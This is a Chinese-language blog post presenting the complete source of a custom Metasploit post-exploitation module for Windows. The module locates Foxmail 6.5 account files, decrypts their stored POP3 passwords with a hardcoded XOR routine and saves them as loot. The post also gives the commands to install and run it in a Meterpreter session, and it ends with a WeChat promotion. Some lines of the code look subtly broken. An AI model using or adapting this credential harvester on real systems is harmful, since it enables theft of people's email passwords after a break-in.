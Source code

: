 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit自定义收集登录凭证的后渗透模块
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit自定义收集登录凭证的后渗透模块
lock: need
---
```


# Metasploit自定义收集登录凭证的后渗透模块

这里，我们以攻击Foxmail 6.5为例，将尝试对登录凭证进行解密，然后将它保存到数据库。

**注意：运行这个脚本的前提是我们已经经过一系列的渗透拿下了目标Windows系统的System权限。**

这里，我们编写脚本foxmail_decrypt_by_binghe.rb，内容如下：

```
##
# Author 冰河
# Date 2019-01-13
# Description 对foxmail 6.5的登录凭证进行解密
#
# 实现过程如下：
# 1.搜索用户的文件，查找当前用户的LocalAppData文件夹的准确位置
# 2.使用上面找到的文职，并将其与\VirtualStore\Program Files(x86)\Tencent\Foxmail\mail连接，建立一个mail文件夹的完整路径
# 3.列出mail文件夹下的所有文件夹，并将它们都保存到一个数组中。在mail文件夹中的每一个文件夹的名字都对应着一个邮箱用户名，比如binghe@formail.com就可以是mail文件夹下的一个文件夹
# 4.在mail文件夹下的accounts文件中查找Account.stg文件
# 5.通过读取Account.stg文件，会发现名为POP3Password的哈希
# 6.将这个值传递给解密方法，然后就会得到明文密码
# 7.将这些值保存到数据库
##

require 'msf/core'

class Metasploit3 < Msf::Post
  include Msf::Post::Windows::Registry
  include Msf::Post::File
  include Msf::Auxiliary::Report
  include Msf::Post::Windows::UserProfiles
  
  def initialize(info={})
    super(update_info(info,
      'Name'          => 'Foxmail 6.5 Credential Harvester',
      'Description'   => %q{
          This module Finds and Decrypts Stored Foxmail 6.5 Credentials
       },
       'License'      => MSF_LICENSE,
       'Author'       => ['binghe'],
       'Platform'     => ['Windows'],
       'SessionTypes' => ['Meterpreter']
    ))
    end
    
    #程序入口
    def run
      profile = grap_user_profiles()
      counter = 0
      data_entry = ""
      profile.each do |user|
        if user['LocalAppData']
          full_path = user['LocalAppData']
          full_path = full_path + "\\VirtualStore\\Program Files(x86)\\Tencent\\Foxmail\\mail"
          if directory?(full_path)
            print_good("Fox Mail Installed, Enumerating Mail Accounts")
            session.fs.dir.foreach(full_path) do |dir_list|
            if dir_list = ~/@/
              counter = counter + 1
              full_path_mail = full_path + "" + dir_list + "" + "Account.stg"
              if file?(full_path_mail)
                print_good("Reading Mail Account #{counter}")
                file_content = read_file(full_path_mail).split("\n")
                file_content.each do |hash|
                if hash = ~/POP3Password/
                  hash_data = hash.split("=")
                  hash_value = hash[1]
                  if hash_value.nil?
                    print_error("No Saved Password")
                  else
                    print_good("Decrypting Password for mail account: #{dir_list}")
                    #调用解密方法进行解密
                    decrypted_pass = decrypt(hash_value, dir_list)
                    data_entry << "Username:" + dir_list + "\t" + "Password:" + decrypted_pass + "\n"
                  end
                 end
                end
               end
              end
             end
            end
           end
          end
          store_loot("Foxmail Accounts", "text/plain", session, data_entry, "Fox.txt", "Fox Mail Accounts") 
      end  
      
      #解密方法
      def decrypt(hash_real, dir_list)
        decoded = ""
        magic = Array[126,100,114,97,71,111,110,126]
        fc0 = 90
        size = (hash_real.length) / 2 - 1
        index = 0
        b = Array.new(size)
        for i in 0 .. size do
         b[i] = (hash_real[index, 2]).hex
         index = index + 2
        end
        b[0] = b[0] ^ fc0
        double_magic = magic + magic
        d = Array.new(b.length - 1)
        for i in 1 .. b.length - 1 do
          d[i-1] = b[i] ^ double_magic[i - 1]
        end
        
        e = Array.new(d.length)
        for i in 0 .. (d.length -1)
          if(d[i] - b[i] < 0)
            e[i] = d[i] + 255 - b[i]
           else
            e[i] = d[i] - b[i]
           end
           decoded << e[i].chr
         end
         print_good("Found Username #{dir_list} with Password: #{decoded}")
         return decoded
       end
end
```

然后我们将foxmail_decrypt_by_binghe.rb脚本上传到Kali的/usr/share/metasploit-framework/modules/post/windows/gather/credentials目录下。

在运行这个脚本之前，我们先使用Metasploit中的msftidy工具检查一下此脚本的语法是否正确。

在Kali的命令行执行如下命令：

```
/usr/share/metasploit-framework/tools/dev/msftidy.rb /usr/share/metasploit-framework/modules/post/windows/gather/credentials/foxmail_decrypt_by_binghe.rb
```

未输出任何信息，证明脚本正确。

接下来，我们的Kali命令行，执行如下命令：

```
meterpreter > background
msf > set SESSION 1
msf > use post/windows/gather/credentials/foxmail_decrypt_by_binghe 
msf post(windows/gather/credentials/foxmail_decrypt_by_binghe) > show options

Module options (post/windows/gather/credentials/foxmail_decrypt_by_binghe):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

msf post(windows/gather/credentials/foxmail_decrypt_by_binghe) > run
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
